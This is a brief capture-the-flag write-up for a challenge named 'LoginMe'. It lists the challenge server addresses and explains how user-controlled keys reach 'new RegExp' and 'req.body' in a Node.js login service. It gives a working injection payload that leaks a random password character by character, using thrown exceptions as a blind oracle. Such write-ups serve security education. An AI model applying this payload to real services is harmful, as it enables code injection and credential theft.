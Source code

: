 # LoginMe

http://202.120.7.194:8081
http://202.120.7.194:8082
http://202.120.7.194:8083

It's about inject to `new RegExp(#...#)` and `req.body[k]`


Since `password` column is generated by random string, and will re-random once server crash and restart. 
You have to extract the keys of object `this`.

```
username=bbbb
&|(if.*(").*\sreturn.*\s.*\s.*)|=$2;  this[Object.keys.call`${this}`[3]].charCodeAt`0` > 0x30 ? blah`` : 2 ; $2
```

Then blind the each character, if your condition is right, the server will throw an exception, then you got http error response 
(because of calling non-exists `blah` function)





